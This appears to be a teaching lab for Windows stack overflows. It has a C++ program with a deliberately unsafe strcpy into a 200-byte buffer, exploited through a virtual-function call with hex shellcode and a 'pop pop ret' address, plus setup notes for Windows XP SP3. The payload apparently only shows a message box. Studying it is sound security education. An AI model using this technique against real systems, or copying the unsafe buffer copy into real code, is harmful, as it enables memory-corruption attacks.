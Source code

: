 ### Code

```cpp
#include"string.h"

class GSVirtual {
public:
	void gsv(char * src)
	{
		char buf[200];
		strcpy(buf, src);
		vir();
	}

	virtual void vir(){}
};

int main()
{
	GSVirtual test;

	test.gsv(
		"\x72\x7A\x81\x7C" //address of "pop pop ret" 
		"\x1A\x20\x90\x90\x90\x90\x90\x90\xFC\x68\x6A\x0A\x38\x1E\x68\x63"
    	"\x89\xD1\x4F\x68\x32\x74\x91\x0C\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7"
		"\x04\x2B\xE3\x66\xBB\x33\x32\x53\x68\x75\x73\x65\x72\x54\x33\xD2"
		"\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B\x49\x1C\x8B\x09\x8B\x69\x08\xAD"
		"\x3D\x6A\x0A\x38\x1E\x75\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C"
		"\x8B\x4C\x05\x78\x03\xCD\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34"
		"\xBB\x03\xF5\x99\x0F\xBE\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0"
		"\x46\xEB\xF1\x3B\x54\x24\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B"
		"\x3C\x7B\x8B\x59\x1C\x03\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D"
		"\x6A\x0A\x38\x1E\x75\xA9\x33\xDB\x53\x68\x6B\x61\x6F\x6F\x68\x4D"
		"\x69\x73\x61\x8B\xC4\x53\x50\x50\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90" 
		);

	return 0;
}
```

### Description

- Note: The test environment is `Windows XP SP3`, the compiled version is `Release` version, the compiler is `Visual Studio 2008`, and the compilation option is `Disable compilation optimization/0d`.
- The first four bytes of shellcode are the address of the following assembly code, if the system is not `Windows XP SP3`, you need to modify

```x86asm
pop edi
pop esi
retn
```
